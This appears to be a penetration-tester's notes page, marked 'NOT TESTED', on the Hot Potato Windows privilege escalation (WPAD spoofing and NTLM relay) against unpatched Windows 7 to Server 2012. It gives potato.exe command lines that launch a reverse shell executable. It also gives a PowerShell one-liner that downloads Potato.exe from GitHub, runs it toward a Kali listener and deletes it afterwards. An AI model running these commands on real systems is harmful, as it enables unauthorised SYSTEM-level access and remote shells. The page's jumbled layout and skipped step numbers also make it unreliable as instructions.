



Hot Potato: WPAD Spoofing + NTLM relay attack
WARNING: NOT
TESTED
Prerequisite:
Windows 7, 8, 10, Server 2008, and Server 2012 not patched with
• MS16-075
•
MS16-077GitHub:
https://github.com/foxglovesec/PotatoHot Potato is the
code name of a Windows privilege escalation technique discovered by Stephen Breen @breenmachine.
Command exploits for different Windows OSs: https://foxglovesecurity.com/2016/01/16/hot-potato/•
Windows 7:
◇
C:\> .\potato.exe -ip <localIpWindows> -cmd "C:\PrivEsc\reverse.exe" -disable_exhaust true
◇
C:\> .\potato.exe -ip <localIpWindows> -cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
Example on Windows 7 1. Copy the
potato.exe exploit executable over to Windows.
2. Start a listener on Kali.
3. Run the exploit:
https://github.com/foxglovesec/Potato/raw/master/source/Potato/Potato/bin/Release/Potato.exe
PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/foxglovesec/Potato/raw/master/source/Potato/Potato/bin/Release/Potato.exe", "$env:userprofile\desktop\Potato.exe");Invoke-Expression "$env:userprofile\desktop\Potato.exe -ip 192.168.147.150 -cmd 'C:\Users\ckent\Desktop\reverse.exe' -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true";Remove-Item -Path "$env:userprofile\desktop\potato.exe";
6. This will trigger for a
Windows Defender update request
Bibliography:
•
https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html#hotPotato•
https://foxglovesecurity.com/2016/01/16/hot-potato/